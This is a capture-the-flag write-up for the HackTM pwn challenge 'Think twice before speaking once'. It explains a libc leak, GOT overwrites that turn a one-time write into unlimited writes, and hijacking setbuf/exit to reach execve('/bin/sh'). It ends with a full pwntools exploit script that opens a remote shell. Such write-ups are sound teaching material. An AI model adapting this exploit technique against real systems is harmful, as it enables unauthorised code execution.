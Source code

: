 ```yaml
---
layout: post
category: Pwn
title: HackTM - Think twice before speaking once
tags: 
    - kowu
---
```


A "kind of" blind pwning challenge, non-pic binary was provided (but not unusable out of the box because of some linker foo?).

```
user@KARCH ~ % nc 138.68.67.161 20004
 [*] Wise man said: 'Think twice before speaking once'
 [1] Think
 [2] Speak
 [3] Give Up
 >1
 [#] Enter Where: 4194304
[ 
ELF ]
 [1] Think
 [2] Speak
 [3] Give Up
 >3
```

The basic functionality was, that one could leak memory as often as he wants. But a 8 byte-write is allowed only once.

# Resolving Functions

Let's start with leaking everything we need. First of all we obtain a pointer into libc by leaking from our own GOT.
Then we can let pwntools DynELF do the rest of the work. Done.

```python
libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000
d = DynELF(leakat, libcptr)
d.lookup('system')
```

# Unlimited Write

In the next step I crafted some unlimited writing primite. If we look at the implementation of the leaking functionality we can see that it is implemented using a write(stdout, myaddr, 8).

```c
sym.imp.printf(" [#] Enter Where: ");
sym.imp.fflush(_reloc.stdout);
sym.imp.__isoc99_scanf("%lu", &var_10h);
sym.imp.puts("[ \n");
sym.imp.write(1, var_10h, 8);
sym.imp.puts(" ]");
```

Now, if we overwrite the reloc.write with read, a leak request at myaddr will lead to the execution of read(stdout, myaddr, 8). Even though we are reading from stdout, it is effectively the same as stdin. And by using this we now have unlimited writes.

# RIP & RDI Control

In a final step I wanted to execute system("/bin/sh"). For getting RIP control I overwrote reloc.exit with an address of my choice. So exiting gives me RIP control, but RDI is not controllable at all (it is zero because of exit(0)).

If we look at the initialization routine of the binary we can see three calls to setbuf/setvbuf. And each of them dereferences a pointer from a controllable location (reloc.stdin/out/err) and uses it to call a controllable function with.

```c
void sym.init_proc(void)
{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setbuf(_reloc.stderr, 0);
    sym.imp.signal(0xe, sym.handler);
    sym.imp.alarm(0x3c);
    return;
}
```

closer look in asm:

```nasm
0x004008db      488b05be0720.  mov rax, qword [obj.stderr]
0x004008e2      be00000000     mov esi, 0
0x004008e7      4889c7         mov rdi, rax
0x004008ea      e801feffff     call sym.imp.setbuf
```

The Idea is to overwrite setbuf with system and modify reloc.stderr to be a pointer pointing to /bin/sh.
Stderr is never used inside the code, so nothing is going to crash.
The /bin/sh string is placed in some unused memory (e.g. just at the end of the reloc section).
If we have done this, we can now just call main or init_proc to get a shell. (At least I thought so, it crashed...)

# WTF

I don't know what was going on on the remote side, but to me it seemed like the env pointer was wrong? 
So when doing a system("/bin/sh") libc would try to resolve the environment variables, but it got a wrong pointer and it would crash.
Anyways, by calling execve directly this doesn't happen, because we would have to do the job of supplying argv and env pointers.
Supplying NULL is fine as well. And as lucky as we are, the second and third arguments are either NULL or some valid pointers. Shell.


```
from pwn import *

r = remote('138.68.67.161', 20004)


def leakat(addr):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    return r.recvn(8)


def writeto(addr, value):
    r.sendlineafter('>', '2')
    r.sendlineafter('Where:', str(addr))
    r.sendlineafter('What: ', str(value))


def xwrite(addr, value):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    r.send(struct.pack('<Q', value))


def sploit():
    libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000

    # resolve addresses. Use execve instead of system because of fucked up env ptr?
    d = DynELF(leakat, libcptr)
    addr_execve = d.lookup('execve')
    addr_read = d.lookup('read')

    # read is now write for unlimited write.
    writeto(0x00601020, addr_read)

    # place /bin/sh in unused mem, let reloc.stderr point there
    xwrite(0x00601100, struct.unpack('<Q', b'/bin/sh\0')[0])
    xwrite(0x006010a0, 0x00601100)

    # setbuf is now execve
    xwrite(0x00601028, addr_execve)

    # exit is now main
    xwrite(0x00601068, 0x00400930)

    # exit to main -> init_proc -> execve("/bin/sh", 0, ?)
    r.sendlineafter('>', '3')
    r.interactive()


if __name__ == '__main__':
    sploit()
```
